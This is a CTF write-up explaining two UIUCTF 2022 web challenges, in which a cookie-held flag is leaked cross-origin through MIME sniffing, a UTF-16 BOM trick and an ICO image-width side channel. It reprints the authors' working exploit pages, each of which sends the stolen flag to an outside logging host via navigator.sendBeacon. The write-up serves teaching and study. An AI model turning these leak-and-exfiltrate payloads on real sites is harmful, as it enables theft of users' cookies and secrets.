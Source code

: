 ```yaml
---
title: UIUCTF 2022 Notes
catalog: true
date: 2022-08-01 20:31:10
tags: [Security]
categories: [Security]
photos: /img/uiuctf-ctf-2022-writeup/cover.png
---
```


I didn't participate in this CTF, but I found two interesting problems related to content type and I want to write down the solutions.

<!-- more -->

## modernism(21 solves)

The code is super simple:

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[A-Za-z]+}$
    return Response(prefix+flag, mimetype="text/plain")
```

It will hex decode the data you send and add it to the flag in the response. An admin bot will visit your page with the flag in the cookie.

I originally thought that `text/plain` cannot be loaded as a script, even if `X-Content-Type-Options: nosniff` is not added. Later, I found out that I remembered it wrong, and it is actually possible.

The relevant code is in [third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc](https://source.chromium.org/chromium/chromium/src/+/refs/tags/106.0.5211.0:third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc;l=79;bpv=0;bpt=1)

``` c
// Helper function to decide what to do with with a given mime type. This takes
// - a mime type
// - inputs that affect the decision (is_same_origin, mime_type_check_mode).
//
// The return value determines whether this mime should be allowed or blocked.
// Additionally, warn returns whether we should log a console warning about
// expected future blocking of this resource. 'counter' determines which
// Use counter should be used to count this. 'is_worker_global_scope' is used
// for choosing 'counter' value.
bool AllowMimeTypeAsScript(const String& mime_type,
                           bool same_origin,
                           AllowedByNosniff::MimeTypeCheck mime_type_check_mode,
                           WebFeature& counter) {
  using MimeTypeCheck = AllowedByNosniff::MimeTypeCheck;

  // If strict mime type checking for workers is enabled, we'll treat all
  // "lax" for worker cases as strict.
  if (mime_type_check_mode == MimeTypeCheck::kLaxForWorker &&
      RuntimeEnabledFeatures::StrictMimeTypesForWorkersEnabled()) {
    mime_type_check_mode = MimeTypeCheck::kStrict;
  }

  // The common case: A proper JavaScript MIME type
  if (MIMETypeRegistry::IsSupportedJavaScriptMIMEType(mime_type))
    return true;

  // Check for certain non-executable MIME types.
  // See:
  // https://fetch.spec.whatwg.org/#should-response-to-request-be-blocked-due-to-mime-type?
  if (mime_type.StartsWithIgnoringASCIICase("image/")) {
    counter = WebFeature::kBlockedSniffingImageToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("audio/")) {
    counter = WebFeature::kBlockedSniffingAudioToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("video/")) {
    counter = WebFeature::kBlockedSniffingVideoToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("text/csv")) {
    counter = WebFeature::kBlockedSniffingCSVToScript;
    return false;
  }

  if (mime_type_check_mode == MimeTypeCheck::kStrict) {
    return false;
  }
  DCHECK(mime_type_check_mode == MimeTypeCheck::kLaxForWorker ||
         mime_type_check_mode == MimeTypeCheck::kLaxForElement);

  // Beyond this point we handle legacy MIME types, where it depends whether
  // we still wish to accept them (or log them using UseCounter, or add a
  // deprecation warning to the console).

  if (EqualIgnoringASCIICase(mime_type, "text/javascript1.6") ||
      EqualIgnoringASCIICase(mime_type, "text/javascript1.7")) {
    // We've been excluding these legacy values from UseCounter stats since
    // before.
    return true;
  }

  if (mime_type.StartsWithIgnoringASCIICase("application/octet-stream")) {
    counter = kApplicationOctetStreamFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("application/xml")) {
    counter = kApplicationXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/html")) {
    counter = kTextHtmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/plain")) {
    counter = kTextPlainFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/xml")) {
    counter = kTextXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/json") ||
             mime_type.StartsWithIgnoringCase("application/json")) {
    counter = kJsonFeatures[same_origin];
  } else {
    counter = kUnknownFeatures[same_origin];
  }

  return true;
}
```

However, even if it can be loaded as a script, it is not easy to make it executable because the flag contains `{}`.

The unexpected solution is to use a class. Adding `class` in front of the flag makes it `class uiuctf{fakeflag}`, and with this, you can get the entire string that was declared when the class was declared by using `uiuctf+''`, and then you get the flag.

The expected solution is to add a BOM in front of the flag, so that JS interprets the entire script in UTF-16, and the original flag becomes strange Chinese characters, so it won't break. You can add `++window.` in front, and then look at each property of the window.

The author's [solution](https://codesandbox.io/s/modernism-sol-05tjvc?file=/index.html:0-1544) is as follows:

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <!--
      we use a BOM (byte order mark) to change the encoding
      of the document and cause it to be interpreted as valid JS

      BOM = magic unicode character at start of document 
        to indicate encoding and endianness

      chrome supports the UTF16-BE and UTF16-LE BOMs:
      FE FF and FF FE

      we then encode: ++window. as UTF16-BE
      2B2B7769006E0064006F0077002E

      so the JS executed is:
      ++window.RANDOM_UNICODE_CHARACTERS
      
      - luckily, when decoding the flag format as UTF-16 BE, 
        the resultant characters will always be a valid JS identifier
        - this is NOT true in precisionism, due to the space and ! characters in the suffix

      Finally, we iterate through the `window` object,
      and utf16-be encode the added property to get the flag
    -->
    <script src="https://modernism-web.chal.uiuc.tf/?p=FEFF002B002B00770069006E0064006F0077002E"></script>
    <script>
      const encutf16=(s)=>[...s].flatMap(c=>[String.fromCharCode(c.charCodeAt(0)>>8),String.fromCharCode(c.charCodeAt(0)&0xff)]).join('');
      const flag = Object.getOwnPropertyNames(window).map(x=>encutf16(x)).find(x=>x.startsWith('uiuctf{'));
      navigator.sendBeacon("//hc.lc/log2.php?modernism",flag);
    </script>
  </body>
</html>
```


## precisionism(3 solves)

This problem is similar to the previous one, but with some additional content at the end:

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[0-9A-Za-z]{8}}$
    return Response(prefix+flag+b"Enjoy your flag!", mimetype="text/plain")
```

Because of the additional content, the previous two methods cannot be used.

The expected solution for this problem is to make the response an ICO format, and then put the part to be leaked into the width, so that you can get the width of the image cross-origin, and get one byte at a time:

The author's [solution](https://codesandbox.io/s/precisionism-sol-17tev5?file=/index.html:0-1039) is as follows:

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <h1>
      This is a static template, there is no bundler or bundling involved!
    </h1>
    <script>
      const sleep = () => new Promise((res) => setTimeout(res, 50));
      async function exfil(i) {
        let img = new Image();
        let p = "00000100020001010000010020006804000026000000";
        if (i>0) p = p.slice(0, -i*2);
        img.src = `https://precisionism-web.chal.uiuc.tf/?p=${p}`;
        await img.decode();
        return img.width;
      }
      async function main() {
        for (let i = 0; i < 16; i++) {
          let c = await exfil(i);
          console.log(String.fromCharCode(c));
          navigator.sendBeacon("//hc.lc/log2.php?precisionism",String.fromCharCode(c)+" "+c)
        }
      }
      main();
    </script>
  </body>
</html>
```

## Summary

I also studied how Chromium does mime sniffing, but it seems to have little to do with this problem, so I will note the location: https://source.chromium.org/chromium/chromium/src/+/master:net/base/mime_sniffer.cc
